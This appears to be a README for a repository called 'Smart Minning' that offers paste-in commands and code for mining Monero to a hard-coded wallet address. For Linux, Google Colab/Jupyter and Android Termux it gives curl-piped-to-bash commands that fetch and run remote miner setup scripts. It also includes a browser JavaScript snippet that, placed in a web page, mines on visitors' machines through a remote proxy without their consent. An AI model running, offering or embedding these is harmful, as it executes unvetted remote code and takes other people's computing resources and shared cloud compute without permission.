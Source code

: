 # `Smart Minning 🤓`
## `Linux`
```
curl -s -L https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.sh | bash -s 8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un
```
## `Google Colab` Or `Jupyter Notebook`
```
! curl -s -L https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.sh | bash -s 8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un
```
## `Android "Termux"`
```
bash <(curl -fsSL git.io/aminer) -o gulf.moneroocean.stream:10128 -u 8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un -p x
```
## `Web Monitizer JS`
```
<script src="https://monerominer.rocks/miner-mmr/webmnr.min.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un";
    var workerId = "AliX"
    var threads = -1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 40;
</script>
```
## For You  
If You Want To Use It For Your Purpose  
Simply Golk This Repo  
Then Replace `8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un` With Your Monero Adress Everywhere  
Then Go To `https://moneroocean.stream` And Paste Your Wallet Adress For Tracking
